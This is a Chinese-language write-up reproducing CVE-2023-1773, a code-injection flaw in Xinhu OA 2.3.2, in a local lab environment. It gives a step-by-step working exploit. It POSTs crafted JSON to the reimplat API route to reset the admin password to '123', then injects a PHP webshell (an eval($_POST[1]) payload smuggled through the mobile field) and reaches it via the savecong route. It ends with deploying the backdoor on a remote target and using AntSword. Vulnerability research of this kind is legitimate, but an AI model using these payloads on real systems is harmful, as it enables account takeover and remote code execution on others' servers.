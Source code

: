 # CVE-2023-1773

:::info

Tags

- 信呼 OA \<= 2.3.3 代码注入

官方数据库记录

> Rockoa 2.3.2 中发现一个漏洞。 它已被宣布为关键。 该漏洞影响组件配置文件处理程序的文件 webmainConfig.php 的未知代码。 这种操纵会导致代码注入。 攻击可以远程发起。 该漏洞已向公众披露并可能被使用。 VDB-224674 是分配给此漏洞的标识符。

:::

参考

- [记一次 CMS 代码审计 - Potat0w0](https://potatowo233.github.io/2023/12/23/%E8%AE%B0%E4%B8%80%E6%AC%A1CMS%E4%BB%A3%E7%A0%81%E5%AE%A1%E8%AE%A1/)
- [NVD - CVE-2023-1773](https://nvd.nist.gov/vuln/detail/CVE-2023-1773)

:::warning

需要注意的是，这里环境复现需要自行在本地部署一个信呼 v2.3.2 的环境进行调试

环境已经打包好：[CTF-Archives/xinhu-v2.3.2: 信呼 v2.3.2 针对CVE-2023-1773的研究环境](https://github.com/CTF-Archives/xinhu-v2.3.2)

需要注意，环境初始化的时候

- 地址：`localhost`
- 数据库用户：`root`
- 数据库密码：`123456`

:::

首先，根据分析文章的流程，在本地环境中修改 `webmain/task/api/reimplatAction.php` 文件

```php
// 平台上通知过来的数据
public function indexAction()
{
    $body = $this->getpostdata();
    // add debug
    echo $body."<br>";
    if(!$body)return;
    $db   = m('reimplat:dept');
    // add debug
    $key   = $db->gethkey();
    $test=$this->jm->strlook($body,$key);
    echo $test."<br>";
    $bodystr = $this->jm->strunlook($body, $key);
    if(!$bodystr)return;
```

这样子，就可以在本地获取到处理过后的字符串

## 修改 admin 用户密码

然后，向路由 `/?p=webmain&d=task&m=reimplat|api&a=index` POST 以下数据

```json
{"msgtype":"editpass","user":"admin","pass":"123"}
```

![img](img/image_20240734-003447.png)

得到

```plaintext
{"msgtype":"editpass","user":"admin","pass":"123"}
31ae15.X3amdiGpSx5aZqNWaq6NSZVut2MjYWm5UmMnRnZ!GZIXUmqvZUmqEY2Jnh7Y:
```

继续向路由 `/?p=webmain&d=task&m=reimplat|api&a=index` POST 编码后的数据

![img](img/image_20240735-003506.png)

得到

```plaintext
31ae15.X3amdiGpSx5aZqNWaq6NSZVut2MjYWm5UmMnRnZ!GZIXUmqvZUmqEY2Jnh7Y:
l2WSyWmYkpFrx52Uy3mgh91umYqhh5CZ1pm0i46IrNmWgZu9j9CZjqWznoLQjFF7v4KQhZ2qr5K60Nd9jWSB08xrip4:
```

此时，用户 `admin` 的密码已经被修改，修改为 `123` 之后就可以直接登录

![img](img/image_20240736-003631.png)

## 写入 webshell

进一步攻击，写入 webshell

向路由 `/?p=webmain&d=task&m=reimplat|api&a=index` POST 以下数据

```json
{
    "msgtype":"editmobile",
    "user":"admin",
    "mobile":"11',name='\neval($_POST[1]);//"
}
```

![img](img/image_20240758-005805.png)

得到

```plaintext
31ae15.X3amdiGpSx5aZqNKompmcnltkcm2IraeXqYeeVpLIpczSW2RzOlLPoZKd0Z5aalJqal!R0celmW9ewdKZp8Wki4iYiLWDhL1jjV2gaGdSrQ::
```

将得到的数据再次 POST 过去

![img](img/image_20240758-005831.png)

此时查询数据库，就可以发现数据库的数据被篡改

![img](img/image_20240759-005924.png)

此时在系统上重新登录，然后访问 `/?p=webmain&d=system&m=cog|cog&ajaxbool=true&a=savecong` 路由，就是 webshell

![img](img/image_20240701-010115.png)

在本地环境计算好数据之后，发送给远程

![img](img/image_20240702-010251.png)

即可在远程环境中部署 webshell 后门，直接使用蚁剑进行利用即可
